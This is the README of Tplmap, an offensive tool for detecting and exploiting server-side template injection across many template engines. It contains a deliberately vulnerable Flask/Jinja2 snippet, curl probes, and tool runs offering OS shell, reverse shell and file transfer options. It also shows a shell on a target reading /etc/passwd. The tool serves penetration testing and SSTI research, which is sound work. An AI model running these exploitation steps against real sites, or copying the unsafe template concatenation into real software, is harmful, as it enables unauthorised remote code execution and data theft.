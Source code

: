Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][6] that uses [Jinja2][5] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    
    # The user-controllable GET parameter `name` is
    # concatenated to the template string instead of
    # being passed as context to the `render()` method. 
    
    output = Jinja2.from_string('Hello ' + name + '!').render()

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engine, including Jinja2, to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes
   Bind and reverse shell: yes
   File write: yes
   File read: yes
   Code evaluation: yes, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed template engines and generic _eval()_-like injections. Blind injections and injections in code contexts are also supported.

| Template engine    | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[5]: http://jinja.pocoo.org/
[6]: http://flask.pocoo.org/
